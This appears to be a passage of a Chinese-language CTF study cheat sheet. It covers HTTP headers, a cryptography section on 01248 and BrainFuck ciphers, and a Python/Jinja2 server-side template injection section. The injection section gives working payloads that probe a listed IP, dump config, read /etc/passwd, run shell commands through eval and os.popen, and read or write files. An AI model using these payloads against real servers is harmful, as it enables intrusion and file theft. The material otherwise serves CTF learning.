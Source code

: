 |      Warning       |                    警告实体可能存在的问题                    |          Warning: 199 Miscellaneous warning           |
|  WWW-Authenticate  |             表明客户端请求实体应该使用的授权方案             |                WWW-Authenticate: Basic                |

## Python

### templete injection

1. 简单嗅探

   http://111.198.29.45:42611/{{7+7}}

   若返回：URL http://111.198.29.45:59331/14 not found，则说明执行了{{}}内的代码

2. {{ config.items() }}查看服务器配置

3. {{ [].__class__.__base__.__subclasses__()[40]('/etc/passwd').read() }}  读取密码

4. 执行代码

   ```python
   {% for c in [].__class__.__base__.__subclasses__() %}
   {% if c.__name__ == 'catch_warnings' %}
     {% for b in c.__init__.__globals__.values() %}  
     {% if b.__class__ == {}.__class__ %}         //遍历基类 找到eval函数
       {% if 'eval' in b.keys() %}    //找到了
         {{ b['eval']('__import__("os").popen("ls").read()') }}  //导入cmd 执行popen里的命令 read读出数据
       {% endif %}
     {% endif %}
     {% endfor %}
   {% endif %}
   {% endfor %}
   ```

5. 读文件

   ```python
   ().__class__.__bases__[0].__subclasses__()[40](r'C:\1.php').read()
   ```

6. 写文件

   ```python
    ().__class__.__bases__[0].__subclasses__()[40]('/var/www/html/input', 'w').write('123')
   ```

7. 

# 密码学

## 云影密码（01248）

使用 01248 四个数字，其中 0 用来表示间隔，其他数字以加法可以表示出 如：28=10，124=7，18=9，再用 1->26 表示 A->Z。

## **BrainFuck语言**（><+-.,[]）

